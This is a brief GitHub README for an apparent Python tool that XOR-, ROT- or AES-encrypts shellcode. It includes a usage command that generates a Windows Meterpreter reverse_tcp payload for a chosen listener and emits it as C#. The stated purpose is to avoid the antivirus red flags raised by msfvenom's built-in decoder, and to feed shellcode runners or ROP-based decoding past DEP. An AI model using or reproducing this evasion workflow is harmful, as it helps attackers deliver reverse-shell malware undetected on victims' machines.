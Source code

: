 # py-shellcodeEnc
tool to encrypt(xor,rot,aes) shellcode

USAGE:
```
python senc.py -p windows/meterpreter/reverse_tcp -lhost eth0 -lport 443 -e rot -k 254 -f csharp
```


TODO - print cssharp decrypt function.

This is mainly for:
msfvenom builtin decoder on encoded shellcode is usually a red flag for any security solution.

1 - using with a shellcode runner with decryption routine implemented.

2 - DEP with ROP decode and etc..
